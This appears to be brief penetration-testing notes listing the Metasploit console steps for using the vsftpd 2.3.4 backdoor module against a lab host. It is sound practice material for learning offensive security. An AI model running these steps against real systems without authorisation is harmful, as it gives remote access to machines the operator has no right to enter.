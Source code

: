**How to execute an exploit**

	1st) Search for the exploit: search vsftpd 2.3.4
	2nd) Choose the exploit: use exploit/unix/ftp/vsftpd_234_backdoor
	3rd) Show the exploit options: show options
	4th) Set the necessary options: set <option_name> <option_value> (set RHOSTS 10.10.10.3)
	5th) run the exploit: run
